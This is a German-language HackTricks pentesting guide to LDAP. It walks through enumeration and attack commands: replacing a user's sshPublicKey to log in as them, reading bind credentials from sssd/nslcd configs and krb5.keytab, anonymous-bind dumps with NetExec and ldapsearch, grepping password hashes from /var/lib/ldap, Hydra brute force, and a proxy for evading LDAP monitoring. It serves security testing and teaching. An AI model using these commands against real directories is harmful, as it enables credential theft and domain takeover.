


# 389, 636, 3268, 3269 - Pentesting LDAP

{{#include ../banners/hacktricks-training.md}}

Die Verwendung von **LDAP** (Lightweight Directory Access Protocol) dient hauptsächlich dazu, verschiedene Entitäten wie Organisationen, Personen und Ressourcen wie Dateien und Geräte innerhalb öffentlicher und privater Netzwerke zu lokalisieren. Es bietet einen schlankeren Ansatz im Vergleich zu seinem Vorgänger, DAP, durch einen geringeren Code-Footprint.

LDAP-Verzeichnisse sind so strukturiert, dass sie auf mehrere Server verteilt werden können, wobei jeder Server eine **replizierte** und **synchronisierte** Version des Verzeichnisses beherbergt, die als Directory System Agent (DSA) bezeichnet wird. Die Verantwortung für die Bearbeitung von Anfragen liegt vollständig beim LDAP-Server, der bei Bedarf mit anderen DSAs kommunizieren kann, um dem Anfragenden eine einheitliche Antwort zu liefern.

Die Organisation des LDAP-Verzeichnisses ähnelt einer **Baumhierarchie, die oben mit dem Root-Verzeichnis beginnt**. Diese verzweigt sich zu Ländern, die sich weiter in Organisationen unterteilen, und dann in Organisationseinheiten, die verschiedene Abteilungen oder Bereiche repräsentieren, bis hin zur Ebene einzelner Einträge, einschließlich Personen und gemeinsam genutzter Ressourcen wie Dateien und Drucker.

**Standardport:** 389 und 636 (ldaps). Global Catalog (LDAP in ActiveDirectory) ist standardmäßig auf den Ports 3268 und 3269 für LDAPS verfügbar.
```
PORT    STATE SERVICE REASON
389/tcp open  ldap    syn-ack
636/tcp open  tcpwrapped
```
### LDAP Data Interchange Format

LDIF (LDAP Data Interchange Format) definiert den Verzeichnisinhalt als eine Menge von Einträgen. Es kann auch Änderungsanforderungen (Add, Modify, Delete, Rename) darstellen.
```bash
dn: dc=local
dc: local
objectClass: dcObject

dn: dc=moneycorp,dc=local
dc: moneycorp
objectClass: dcObject
objectClass: organization

dn ou=it,dc=moneycorp,dc=local
objectClass: organizationalUnit
ou: dev

dn: ou=marketing,dc=moneycorp,dc=local
objectClass: organizationalUnit
Ou: sales

dn: cn= ,ou= ,dc=moneycorp,dc=local
objectClass: personalData
cn:
sn:
gn:
uid:
ou:
mail: pepe@hacktricks.xyz
phone: 23627387495
```
- Zeilen 1-3 definieren die Top-Level-Domain local
- Zeilen 5-8 definieren die First-Level-Domain moneycorp (moneycorp.local)
- Zeilen 10-16 definieren zwei Organisationseinheiten: dev und sales
- Zeilen 18-26 erstellen ein Objekt der Domain und weisen Attribute mit Werten zu

## Daten schreiben

Beachte, dass wenn du Werte ändern kannst, du sehr interessante Aktionen durchführen könntest. Zum Beispiel, stell dir vor, dass du **das Attribut "sshPublicKey" ändern kannst** deines Benutzers oder irgendeines Benutzers. Es ist sehr wahrscheinlich, dass wenn dieses Attribut existiert, dann **ssh liest die öffentlichen Schlüssel aus LDAP**. Wenn du den öffentlichen Schlüssel eines Benutzers ändern kannst, **wirst du in der Lage sein, dich als dieser Benutzer einzuloggen, selbst wenn Passwort-Authentifizierung in ssh nicht aktiviert ist**.
```bash
# Example from https://www.n00py.io/2020/02/exploiting-ldap-server-null-bind/
>>> import ldap3
>>> server = ldap3.Server('x.x.x.x', port =636, use_ssl = True)
>>> connection = ldap3.Connection(server, 'uid=USER,ou=USERS,dc=DOMAIN,dc=DOMAIN', 'PASSWORD', auto_bind=True)
>>> connection.bind()
True
>>> connection.extend.standard.who_am_i()
u'dn:uid=USER,ou=USERS,dc=DOMAIN,dc=DOMAIN'
>>> connection.modify('uid=USER,ou=USERS,dc=DOMAINM=,dc=DOMAIN',{'sshPublicKey': [(ldap3.MODIFY_REPLACE, ['ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDHRMu2et/B5bUyHkSANn2um9/qtmgUTEYmV9cyK1buvrS+K2gEKiZF5pQGjXrT71aNi5VxQS7f+s3uCPzwUzlI2rJWFncueM1AJYaC00senG61PoOjpqlz/EUYUfj6EUVkkfGB3AUL8z9zd2Nnv1kKDBsVz91o/P2GQGaBX9PwlSTiR8OGLHkp2Gqq468QiYZ5txrHf/l356r3dy/oNgZs7OWMTx2Rr5ARoeW5fwgleGPy6CqDN8qxIWntqiL1Oo4ulbts8OxIU9cVsqDsJzPMVPlRgDQesnpdt4cErnZ+Ut5ArMjYXR2igRHLK7atZH/qE717oXoiII3UIvFln2Ivvd8BRCvgpo+98PwN8wwxqV7AWo0hrE6dqRI7NC4yYRMvf7H8MuZQD5yPh2cZIEwhpk7NaHW0YAmR/WpRl4LbT+o884MpvFxIdkN1y1z+35haavzF/TnQ5N898RcKwll7mrvkbnGrknn+IT/v3US19fPJWzl1/pTqmAnkPThJW/k= badguy@evil'])]})
```
## Linux clientseitige LDAP-Artefakte

Auf Linux-Hosts, die in LDAP/AD integriert sind, befinden sich wertvolle Geheimnisse häufig in der **Client-Konfiguration**, nicht nur auf dem LDAP-Server selbst.

Gängige Dateien:
```bash
ls -l /etc/sssd/sssd.conf /etc/nslcd.conf /etc/ldap/ldap.conf /etc/krb5.conf 2>/dev/null
sed -n '1,120p' /etc/sssd/sssd.conf 2>/dev/null
sed -n '1,120p' /etc/nslcd.conf 2>/dev/null
```
Wertvolle Schlüssel:

- **`ldap_uri`** und **`ldap_search_base`**: wo und was abgefragt werden sollte
- **`ldap_default_bind_dn`** und **`ldap_default_authtok`**: wiederverwendbare bind credentials
- **`id_provider`** / **`auth_provider`**: zeigt an, ob SSSD LDAP, Kerberos oder beides verwendet

Nützliche nächste Schritte:
```bash
grep -nE '^(ldap_uri|ldap_search_base|ldap_default_bind_dn|ldap_default_authtok|id_provider|auth_provider)\\s*=' \
/etc/sssd/sssd.conf /etc/nslcd.conf 2>/dev/null

ldapsearch -x -H ldap://<target> -D "<bind-dn>" -w '<password>' -b "<base-dn>"
```
What to look for:

- **für alle lesbare `sssd.conf` / `nslcd.conf`**
- Klartext-Bind-Anmeldeinformationen
- verzeichnisgestützte SSH- oder sudo-Integrationen, die eine lesbare Konfiguration in echte Auswirkungen auf die Autorisierung verwandeln

## Klartext-Anmeldeinformationen abhören

Wenn LDAP ohne SSL verwendet wird, können Sie **Anmeldeinformationen im Klartext** im Netzwerk abhören.

Außerdem können Sie im Netzwerk einen **MITM**-Angriff **zwischen dem LDAP-Server und dem Client** durchführen. Dabei können Sie eine **Downgrade Attack** erzwingen, sodass der Client die **Zugangsdaten im Klartext** zur Anmeldung verwendet.

**Wenn SSL verwendet wird** können Sie versuchen, wie oben beschrieben ein **MITM** durchzuführen, indem Sie ein **gefälschtes Zertifikat** anbieten; wenn der **Benutzer es akzeptiert**, können Sie die Authentifizierungsmethode herabstufen und die Zugangsdaten erneut sehen.

## Anonymer Zugriff

### TLS SNI-Check umgehen

Laut [**this writeup**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) konnte er allein durch Zugriff auf den LDAP-Server mit einem beliebigen Domainnamen (z. B. company.com) den LDAP-Dienst kontaktieren und als anonymer Benutzer Informationen extrahieren:
```bash
ldapsearch -H ldaps://company.com:636/ -x -s base -b '' "(objectClass=*)" "*" +
```
### LDAP anonymous binds

[LDAP anonymous binds](https://docs.microsoft.com/en-us/troubleshoot/windows-server/identity/anonymous-ldap-operations-active-directory-disabled) erlauben **nicht authentifizierten Angreifern**, Informationen aus der Domain abzurufen, wie z. B. eine vollständige Auflistung von Benutzern, Gruppen, Computern, Benutzerkontoattributen und der Kennwortrichtlinie der Domäne. Dies ist eine **veraltete Konfiguration**, und seit Windows Server 2003 dürfen nur authentifizierte Benutzer LDAP-Anfragen initiieren.\
Administratoren haben jedoch möglicherweise eine bestimmte Anwendung so eingerichtet, dass anonymous binds erlaubt sind, und mehr Zugriff gewährt als beabsichtigt, wodurch nicht authentifizierten Benutzern Zugriff auf alle Objekte in AD gewährt wurde.

### Anonymous LDAP enumeration with NetExec (null bind)

If null/anonymous bind is allowed, you can pull users, groups, and attributes directly via NetExec’s LDAP module without creds. Nützliche Filter:
- (objectClass=*) to inventory objects under a base DN
- (sAMAccountName=*) to harvest user principals

Beispiele:
```bash
# Enumerate objects from the root DSE (base DN autodetected)
netexec ldap <DC_FQDN> -u '' -p '' --query "(objectClass=*)" ""

# Dump users with key attributes for spraying and targeting
netexec ldap <DC_FQDN> -u '' -p '' --query "(sAMAccountName=*)" ""

# Extract just the sAMAccountName field into a list
netexec ldap <DC_FQDN> -u '' -p '' --query "(sAMAccountName=*)" "" \
| awk -F': ' '/sAMAccountName:/ {print $2}' | sort -u > users.txt
```
Worauf man achten sollte:
- sAMAccountName, userPrincipalName
- memberOf und OU-Platzierung, um targeted sprays einzugrenzen
- pwdLastSet (zeitliche Muster), userAccountControl flags (disabled, smartcard required, etc.)

Hinweis: Wenn anonymous bind nicht erlaubt ist, sehen Sie typischerweise einen Operations-Fehler, der anzeigt, dass ein Bind erforderlich ist.

## Gültige Zugangsdaten

Wenn Sie gültige Zugangsdaten haben, um sich beim LDAP-Server anzumelden, können Sie alle Informationen über den Domain Admin mit folgendem Tool auslesen:

[ldapdomaindump](https://github.com/dirkjanm/ldapdomaindump)
```bash
pip3 install ldapdomaindump
ldapdomaindump <IP> [-r <IP>] -u '<domain>\<username>' -p '<password>' [--authtype SIMPLE] --no-json --no-grep [-o /path/dir]
```
### [Brute Force](../generic-hacking/brute-force.md#ldap)

## Enumeration

### Automatisiert

Mit diesem kannst du die **öffentlichen Informationen** (wie den Domainnamen)**:**
```bash
nmap -n -sV --script "ldap* and not brute" <IP> #Using anonymous credentials
```
### Python

<details>

<summary>LDAP-Enumeration mit python ansehen</summary>

Du kannst versuchen, **ein LDAP mit oder ohne credentials mit python zu enumerate**: `pip3 install ldap3`

Versuche zuerst, dich **ohne** credentials zu verbinden:
```bash
>>> import ldap3
>>> server = ldap3.Server('x.X.x.X', get_info = ldap3.ALL, port =636, use_ssl = True)
>>> connection = ldap3.Connection(server)
>>> connection.bind()
True
>>> server.info
```
Wenn die Antwort `True` wie im vorherigen Beispiel ist, können Sie einige **interessante Daten** des LDAP-Servers (wie den **naming context** oder den **domain name**) von:
```bash
>>> server.info
DSA info (from DSE):
Supported LDAP versions: 3
Naming contexts:
dc=DOMAIN,dc=DOMAIN
```
Sobald Sie den Namenskontext haben, können Sie einige spannendere Abfragen durchführen. Diese einfache Abfrage sollte Ihnen alle Objekte im Verzeichnis anzeigen:
```bash
>>> connection.search(search_base='DC=DOMAIN,DC=DOMAIN', search_filter='(&(objectClass=*))', search_scope='SUBTREE', attributes='*')
True
>> connection.entries
```
Oder **dump** das gesamte ldap:
```bash
>> connection.search(search_base='DC=DOMAIN,DC=DOMAIN', search_filter='(&(objectClass=person))', search_scope='SUBTREE', attributes='userPassword')
True
>>> connection.entries
```
</details>

### windapsearch

[**Windapsearch**](https://github.com/ropnop/windapsearch) ist ein Python-Skript, das nützlich ist, um Benutzer, Gruppen und Computer aus einer Windows-Domäne mithilfe von LDAP-Abfragen zu enumerieren.
```bash
# Get computers
python3 windapsearch.py --dc-ip 10.10.10.10 -u john@domain.local -p password --computers
# Get groups
python3 windapsearch.py --dc-ip 10.10.10.10 -u john@domain.local -p password --groups
# Get users
python3 windapsearch.py --dc-ip 10.10.10.10 -u john@domain.local -p password --da
# Get Domain Admins
python3 windapsearch.py --dc-ip 10.10.10.10 -u john@domain.local -p password --da
# Get Privileged Users
python3 windapsearch.py --dc-ip 10.10.10.10 -u john@domain.local -p password --privileged-users
```
### ldapsearch

Überprüfe Null-Anmeldeinformationen oder ob deine Anmeldeinformationen gültig sind:
```bash
ldapsearch -x -H ldap://<IP> -D '' -w '' -b "DC=<1_SUBDOMAIN>,DC=<TLD>"
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "DC=<1_SUBDOMAIN>,DC=<TLD>"
```

```bash
# CREDENTIALS NOT VALID RESPONSE
search: 2
result: 1 Operations error
text: 000004DC: LdapErr: DSID-0C090A4C, comment: In order to perform this opera
tion a successful bind must be completed on the connection., data 0, v3839
```
Wenn du etwas findest, das besagt, dass "_bind must be completed_", bedeutet das, dass die Anmeldeinformationen falsch sind.

Du kannst **alles aus einer Domain** extrahieren mit:
```bash
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "DC=<1_SUBDOMAIN>,DC=<TLD>"
-x Simple Authentication
-H LDAP Server
-D My User
-w My password
-b Base site, all data from here will be given
```
Extrahiere **Benutzer**:
```bash
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Users,DC=<1_SUBDOMAIN>,DC=<TLD>"
#Example: ldapsearch -x -H ldap://<IP> -D 'MYDOM\john' -w 'johnpassw' -b "CN=Users,DC=mydom,DC=local"
```
Extrahiere **computers**:
```bash
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Computers,DC=<1_SUBDOMAIN>,DC=<TLD>"
```
Extrahiere **meine Informationen**:
```bash
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=<MY NAME>,CN=Users,DC=<1_SUBDOMAIN>,DC=<TLD>"
```
Extrahiere **Domain Admins**:
```bash
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Domain Admins,CN=Users,DC=<1_SUBDOMAIN>,DC=<TLD>"
```
Extrahieren von **Domain Users**:
```bash
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Domain Users,CN=Users,DC=<1_SUBDOMAIN>,DC=<TLD>"
```
Extrahiere **Enterprise Admins**:
```bash
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Enterprise Admins,CN=Users,DC=<1_SUBDOMAIN>,DC=<TLD>"
```
Extrahiere **Administrators**:
```bash
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Administrators,CN=Builtin,DC=<1_SUBDOMAIN>,DC=<TLD>"
```
Extrahiere **Remote Desktop Group**:
```bash
ldapsearch -x -H ldap://<IP> -D '<DOMAIN>\<username>' -w '<password>' -b "CN=Remote Desktop Users,CN=Builtin,DC=<1_SUBDOMAIN>,DC=<TLD>"
```
Um zu sehen, ob Sie Zugriff auf ein Passwort haben, können Sie grep verwenden, nachdem Sie eine der Abfragen ausgeführt haben:
```bash
<ldapsearchcmd...> | grep -i -A2 -B2 "userpas"
```
Bitte beachten Sie, dass die Passwörter, die Sie hier finden, möglicherweise nicht die echten sind...

#### pbis

Sie können **pbis** hier herunterladen: [https://github.com/BeyondTrust/pbis-open/](https://github.com/BeyondTrust/pbis-open/) und es ist normalerweise in `/opt/pbis` installiert.\
**Pbis** ermöglicht es Ihnen, grundlegende Informationen einfach abzurufen:
```bash
#Read keytab file
./klist -k /etc/krb5.keytab

#Get known domains info
./get-status
./lsa get-status

#Get basic metrics
./get-metrics
./lsa get-metrics

#Get users
./enum-users
./lsa enum-users

#Get groups
./enum-groups
./lsa enum-groups

#Get all kind of objects
./enum-objects
./lsa enum-objects

#Get groups of a user
./list-groups-for-user <username>
./lsa list-groups-for-user <username>
#Get groups of each user
./enum-users | grep "Name:" | sed -e "s,\\,\\\\\\,g" | awk '{print $2}' | while read name; do ./list-groups-for-user "$name"; echo -e "========================\n"; done

#Get users of a group
./enum-members --by-name "domain admins"
./lsa enum-members --by-name "domain admins"
#Get users of each group
./enum-groups | grep "Name:" | sed -e "s,\\,\\\\\\,g" | awk '{print $2}' | while read name; do echo "$name"; ./enum-members --by-name "$name"; echo -e "========================\n"; done

#Get description of each user
./adtool -a search-user --name CN="*" --keytab=/etc/krb5.keytab -n <Username> | grep "CN" | while read line; do
echo "$line";
./adtool --keytab=/etc/krb5.keytab -n <username> -a lookup-object --dn="$line" --attr "description";
echo "======================"
done
```
## Grafische Oberfläche

### Apache Directory

[**Apache Directory hier herunterladen**](https://directory.apache.org/studio/download/download-linux.html). Sie finden ein [Beispiel zur Verwendung dieses Tools hier](https://www.youtube.com/watch?v=VofMBg2VLnw&t=3840s).

### jxplorer

Sie können hier eine grafische Oberfläche mit LDAP-Server herunterladen: [http://www.jxplorer.org/downloads/users.html](http://www.jxplorer.org/downloads/users.html)

Standardmäßig ist es installiert in: _/opt/jxplorer_

.png>)

### Godap

Godap ist eine interaktive Terminal-Benutzeroberfläche für LDAP, die verwendet werden kann, um mit Objekten und Attributen in AD und anderen LDAP-Servern zu interagieren. Es ist für Windows, Linux und MacOS verfügbar und unterstützt simple binds, pass-the-hash, pass-the-ticket & pass-the-cert sowie mehrere andere spezialisierte Funktionen wie Suchen/Erstellen/Ändern/Löschen von Objekten, Hinzufügen/Entfernen von Benutzern in Gruppen, Ändern von Passwörtern, Bearbeiten von Objektberechtigungen (DACLs), Modifizieren von Active-Directory Integrated DNS (ADIDNS), Export in JSON-Dateien, usw.



Sie finden es unter [https://github.com/Macmod/godap](https://github.com/Macmod/godap). Für Anwendungsbeispiele und Anleitungen lesen Sie das [Wiki](https://github.com/Macmod/godap/wiki).

### Ldapx

Ldapx ist ein flexibler LDAP-Proxy, der verwendet werden kann, um LDAP-Traffic von anderen Tools zu inspizieren und zu transformieren. Er kann verwendet werden, um LDAP-Traffic zu verschleiern, um zu versuchen, Identity Protection & LDAP-Überwachungstools zu umgehen, und implementiert die meisten der im [MaLDAPtive](https://www.youtube.com/watch?v=mKRS5Iyy7Qo) Vortrag vorgestellten Methoden.



Sie können ihn von [https://github.com/Macmod/ldapx](https://github.com/Macmod/ldapx) beziehen.

## Authentifizierung via Kerberos

Mit `ldapsearch` können Sie sich **statt über NTLM** gegen **Kerberos** authentifizieren, indem Sie den Parameter `-Y GSSAPI` verwenden.

## POST

Wenn Sie auf die Dateien zugreifen können, in denen die Datenbanken enthalten sind (könnten sich unter _/var/lib/ldap_ befinden), können Sie die Hashes extrahieren mit:
```bash
cat /var/lib/ldap/*.bdb | grep -i -a -E -o "description.*" | sort | uniq -u
```
Du kannst john den Passwort-Hash zuführen (von '{SSHA}' bis 'structural', ohne 'structural' hinzuzufügen).

### Konfigurationsdateien

- General
- containers.ldif
- ldap.cfg
- ldap.conf
- ldap.xml
- ldap-config.xml
- ldap-realm.xml
- slapd.conf
- IBM SecureWay V3 server
- V3.sas.oc
- Microsoft Active Directory server
- msadClassesAttrs.ldif
- Netscape Directory Server 4
- nsslapd.sas_at.conf
- nsslapd.sas_oc.conf
- OpenLDAP directory server
- slapd.sas_at.conf
- slapd.sas_oc.conf
- Sun ONE Directory Server 5.1
- 75sas.ldif

## HackTricks automatische Befehle
```
Protocol_Name: LDAP    #Protocol Abbreviation if there is one.
Port_Number:  389,636     #Comma separated if there is more than one.
Protocol_Description: Lightweight Directory Access Protocol         #Protocol Abbreviation Spelled out

Entry_1:
Name: Notes
Description: Notes for LDAP
Note: |
The use of LDAP (Lightweight Directory Access Protocol) is mainly for locating various entities such as organizations, individuals, and resources like files and devices within networks, both public and private. It offers a streamlined approach compared to its predecessor, DAP, by having a smaller code footprint.

https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-ldap.html

Entry_2:
Name: Banner Grab
Description: Grab LDAP Banner
Command: nmap -p 389 --script ldap-search -Pn {IP}

Entry_3:
Name: LdapSearch
Description: Base LdapSearch
Command: ldapsearch -H ldap://{IP} -x

Entry_4:
Name: LdapSearch Naming Context Dump
Description: Attempt to get LDAP Naming Context
Command: ldapsearch -H ldap://{IP} -x -s base namingcontexts

Entry_5:
Name: LdapSearch Big Dump
Description: Need Naming Context to do big dump
Command: ldapsearch -H ldap://{IP} -x -b "{Naming_Context}"

Entry_6:
Name: Hydra Brute Force
Description: Need User
Command: hydra -l {Username} -P {Big_Passwordlist} {IP} ldap2 -V -f

Entry_7:
Name: Netexec LDAP BloodHound
Command: nxc ldap <IP> -u <USERNAME> -p <PASSWORD> --bloodhound -c All -d <DOMAIN.LOCAL> --dns-server <IP> --dns-tcp
```
## Referenzen

- [HTB: Baby — Anonymous LDAP → Password Spray → SeBackupPrivilege → Domain Admin](https://0xdf.gitlab.io/2025/09/19/htb-baby.html)
- [NetExec (CME-Nachfolger)](https://github.com/Pennyw0rth/NetExec)
- [Microsoft: Anonymous LDAP-Operationen für Active Directory sind deaktiviert](https://docs.microsoft.com/en-us/troubleshoot/windows-server/identity/anonymous-ldap-operations-active-directory-disabled)

{{#include ../banners/hacktricks-training.md}}
